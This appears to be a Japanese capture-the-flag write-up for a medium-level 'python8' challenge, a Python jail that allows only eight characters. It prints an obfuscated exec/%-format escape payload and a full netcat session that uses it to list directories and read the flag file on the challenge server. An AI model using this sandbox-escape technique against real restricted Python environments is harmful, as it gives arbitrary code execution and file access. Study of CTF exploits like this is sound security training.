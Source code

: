 # python8:Misc

$ python8

`nc 160.251.183.149 3838`

Attachment  
[python8.zip](python8.zip)

Difficulty Level : medium  
Point : 300

# Solution
添付ファイルを見てみると、使える文字が`0'()%cex`だけに制限されていた。  
Python8は未来すぎて使える文字が8文字しかないらしい。  
使える文字からして、明らかに`exec`と`%`を使えとのことだろう。  
`exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))`が使えるという情報を頂いたのでそのまま使わせていただきました。(この部分はどうしても分からなかった...コードを見れば理解できるが、自分で作るとなると...)  
python8.pyを実行して上記コードを投げると、任意の関数を実行できるようになる。(上記コードの解析依頼をChatGPT君に投げたら、バグりかけて途中で停止し正常動作に戻ったのはすごかった。さすがです。)  
`ls`、`cd`、`cat`を使ってflagを探したいが、これはLinuxではなくPythonなので、コマンドをそれぞれ置き換える(Linux環境で実行している場合はコメントの方を使用しても良い)。
```python
ls = import os; print('\n'.join(os.listdir('.')))    # ls = import os; os.system('ls')
cd = import os; os.chdir('..')      # cd = import os; os.system('cd')
cat = import os; print(os.popen('cat flag.txt').read())    # cat = import os; os.sysmte('cat')
```
上記コードを使ってディレクトリのどこかにあるflagを探索していく。
```
$ nc 160.251.183.149 3838
Python 8.26.1997 (main, Aug 26 2997, 00:00:00) [SatoCompiler 1.0.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
run
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; os.chdir('..')
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
app
var
home
sys
srv
usr
opt
mnt
bin
etc
media
dev
flag-31ac9361857cf0098f093447acbbd315.txt
proc
sbin
lib
lib64
root
boot
run
tmp
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print(os.popen('cat flag-31ac9361857cf0098f093447acbbd315.txt').read())
flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}
```
flagが得られた。

`flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}`
